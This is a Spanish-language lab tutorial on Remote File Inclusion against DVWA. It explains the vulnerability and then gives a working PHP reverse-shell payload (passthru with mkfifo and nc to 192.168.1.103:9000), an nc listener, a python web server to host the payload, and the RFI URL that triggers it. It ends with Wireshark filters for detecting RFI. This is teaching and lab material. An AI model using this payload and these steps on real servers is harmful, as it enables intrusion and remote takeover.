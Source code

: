 La Inclusión de Archivos Remotos (RFI) es una versión de la Inclusión de Archivos Locales (LFI) que extiende su alcance. En RFI, un atacante logra hacer que la aplicación web, que se está ejecutando en el servidor, establezca una conexión con un servidor externo para cargar e incluir un archivo de este, en lugar de usar un archivo que ya esté en el propio servidor como sucede con LFI.

En cuanto a las dificultades asociadas con el envenenamiento de registros (log poisoning) al explotar LFI:
- La cuenta bajo la cual se ejecuta la aplicación web en el servidor necesita tener los derechos suficientes para leer los archivos de registro (logs) que el atacante desea manipular.
- Es necesario descubrir una forma de insertar código dañino en esos archivos de registro locales, lo cual podría lograrse mediante acciones como enviar ciertas cabeceras HTTP o generar errores intencionadamente.

Si fuera posible incluir archivos alojados en un servidor controlado por el atacante o en otra ubicación bajo su control, estas limitaciones se eliminarían, lo que haría mucho más sencilla la ejecución de código malicioso.

La vulnerabilidad de RFI surge principalmente por dos razones:
- La falta de una limpieza adecuada de las entradas proporcionadas por el usuario, lo que permite la introducción de URLs externas.
- Una configuración insegura o por defecto tanto en el servidor web como en las aplicaciones, que admite este tipo de inclusión de archivos. Un ejemplo claro de esto es tener habilitada la opción allow_url_include en la configuración de PHP, que permite la inclusión de archivos de fuentes externas.

Lenguajes susceptibles a estos ataques: PHP, ASP, JSP, Python...

Con un ataque RFI se puede conseguir:
- Defacement de Sitios Web: El "defacement" se refiere a la alteración visual de un sitio web, donde el contenido original se reemplaza con contenido creado por el atacante. Esto suele hacerse por motivos de vandalismo, para promover una agenda política o social, o simplemente para demostrar la vulnerabilidad del sitio. Con un ataque RFI, un atacante puede incluir un archivo remoto que contenga HTML, JavaScript u otro código que cambie la apariencia del sitio web o muestre un mensaje específico del atacante. Dado que el archivo está siendo incluido y ejecutado por el servidor web como parte de la página web, el contenido del archivo remoto se renderizará en el navegador del usuario, efectivamente cambiando la apariencia del sitio.

- Ejecución Remota de Comandos: Aún más peligroso es la capacidad de ejecutar comandos de forma remota en el servidor web a través de un ataque RFI. Esto puede lograrse si el atacante logra incluir un script PHP (o cualquier otro lenguaje de servidor que se esté ejecutando) desde un servidor remoto que el servidor web víctima ejecutará como suyo. Este script puede contener código que ejecute comandos en el servidor, lo que podría permitir al atacante tomar el control total del servidor web, acceder a bases de datos sensibles, modificar archivos del sistema, instalar malware, crear backdoors para acceso futuro, entre otras acciones maliciosas. La ejecución remota de comandos abre la puerta a una amplia gama de actividades perjudiciales que pueden comprometer la seguridad y la funcionalidad del servidor y de los datos alojados en él.


### En la máquina atacante
Para obtner la shell reversa, usaremos netcat tanto en el atacante (kali) como en la víctima (ubuntu):
- En la máquina atacante (Kali), iniciamos Netcat en modo escucha especificando un puerto:
  ```
  nc -lnvp 9000
  ```
  ![](capturas/remote-file-inclusion.png)


- Creamos un documento que contendrá el fichero que deberá ejecutar la máquina víctima para lanzar la shell reversa:
  ```
  mkdir /tmp/files
  cd /tmp/files
  nano reverse.txt
  
  <?php
        passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1| nc 192.168.1.103 9000 > /tmp/f");
  ?>  
  ```
  La función passthru ejecutará el comando que recibe como argumento. Este comando crea un canal de comunicación bidireccional entre la máquina víctima y la atacante, usando un archivo FIFO en /tmp/f. Primero, elimina /tmp/f si existe y luego crea un FIFO con mkfifo. Utiliza cat para leer este FIFO y pasa la salida a sh -i, creando una shell interactiva que redirige tanto la entrada estándar como la salida estándar y el error estándar a través de Netcat hacia la dirección IP 192.168.1.103 en el puerto 9000. Finalmente, la salida de Netcat se redirige de nuevo al FIFO, completando el circuito para la comunicación bidireccional. Los datos circulan a través de la conexión con la máquina atacante en la ip 192.168.1.103 y el puerto 9000, y la máquina vulnerable por medio del fichero FIFO.

- En el atacante arrancamos un servidor web:
  ```
  python3 -m http.server 80
  ```
  ![](capturas/remote-file-inclusion-2.png)
  ![](capturas/remote-file-inclusion-3.png)


### En la máquina víctima
Utilizamos la URL en la que conseguimos hacer LFI:
```
/DVWA/vulnerabilities/fi/?page=http://192.168.1.103/reverse.txt
```
![](capturas/remote-file-inclusion-4.png)

### En la máquina atacante
Vemos que se ha conseguido finalizar la shell reversa:
![](capturas/remote-file-inclusion-5.png)


## Viendo el ataque con Wireshark
![](capturas/remote-file-inclusion-6.png)
![](capturas/remote-file-inclusion-7.png)
![](capturas/remote-file-inclusion-8.png)

-----------------------------------------------------------
Otro detalle de otra secuencia:

![](capturas/remote-file-inclusion-9.png)


**Filtros wireshark para descubrir RFI:**
```
http || tcp.port == 80 || tcp.port == 443
(http.request or tls.handshake.type eq 1) and !(ssdp)
http.request.method == "POST"
http.request.method == "GET"
```
